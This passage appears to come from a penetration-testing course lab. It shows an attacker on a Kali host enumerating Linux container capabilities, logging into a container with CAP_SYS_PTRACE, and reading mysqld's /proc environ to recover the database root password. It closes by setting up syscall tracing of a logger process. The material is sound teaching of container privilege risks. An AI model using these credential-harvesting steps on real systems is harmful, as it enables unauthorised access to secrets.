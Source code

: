 ```
victim:~# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap=ep
...
victim:~# 
```

> Listing 37 - Finding that Current Victim Does not have CAP_SYS_PTRACE

The output does not show that we have access to CAP_SYS_PTRACE. However, for the purposes of demonstration, we have access to another container on port 2223, which shares the host's PID namespace and has the required capabilities. Let's connect to this container via SSH.

```
victim:~# exit
Connection to sandbox closed.

kali@kali:~$ ssh -p 2223 root@sandbox
root@sandbox's password:
Welcome to Alpine!
....

victim_ptrace:~# 
```

> Listing 38 - Logging into Victim with CAP_SYS_PTRACE

Next, let's verify that we do indeed have the CAP_SYS_PTRACE capability and attempt to view the mysqld **environ** contents.

```
victim_ptrace:~# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap=ep
...

victim_ptrace:~# cat /proc/40554/environ
MYSQL_PASSWORD=passwordHOSTNAME=12042c4d929cMYSQL_DATABASE=dbMYSQL_ROOT_PASSWORD=passwordPWD=/HOME=/var/lib/mysqlMYSQL_MAJOR=8.0GOSU_VERSION=1.14MYSQL_USER=userMYSQL_VERSION=8.0.30-1.el8SHLVL=0MYSQL_ROOT_HOST=%PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binMYSQL_SHELL_VERSION=8.0.30-1.el8
```

> Listing 39 - Verifying CAP_SYS_PTRACE and Viewing Environ

As shown in the listing above, we _do_ have the CAP_SYS_PTRACE capability, and we can now view the process information for mysqld. This displays the root password to access the database.

The CAP_SYS_PTRACE capability is even more dangerous than just allowing us to view the **environ** entry. This capability allows us to debug and trace applications, and potentially even execute commands. To demonstrate this, let's inspect the previously-discovered logger process and attempt to read what it's printing to the console.

To read what content it writes to standard out, standard error, or any other files, we'll need to find any calls to the _write_ syscall.
